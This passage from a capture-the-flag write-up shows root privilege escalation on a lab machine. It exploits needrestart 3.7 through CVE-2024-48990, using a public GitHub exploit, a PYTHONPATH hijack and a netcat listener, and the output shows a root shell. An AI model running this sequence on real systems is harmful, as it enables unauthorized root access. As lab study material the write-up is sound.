 ```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```


After some digging I can't see other option than look for vulnerability in needrestart program, which is our only option for sudo

``` bash
fismathack@conversor:~$ /usr/sbin/needrestart --version

needrestart 3.7 - Restart daemons after library updates.
```

And as it's turns out there is one - **CVE-2024-48990** affects all versions below 3.8
and have ready to go exploit on GitHub <https://github.com/ally-petitt/CVE-2024-48990-Exploit>

So I just downloaded it, put by scp to target machine and followed by instructions 

```bash
export PYTHONPATH=/tmp/CVE-2024-48990-Exploit-main
python3 main.py 
```

in another console window
```bash
nc -lvnp 1337
```

and call 
```bash
sudo needrestart -r a
```

to trigger exploit
which ends

```bash
fismathack@conversor:~$ nc -lvnp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 38318
id
uid=0(root) gid=0(root) groups=0(root)
cd /root/
cat root.txt
05f53ae475fb2e397a2a592de7a49---
```


## conclusions

If I had read the documentation accompanying the codes more carefully, I would have noticed the usefulness of the ‘scripts’ folder earlier and avoided working on XSLT.

Other than that, the machine was relatively easy, although in my opinion it exploited many areas of vulnerability.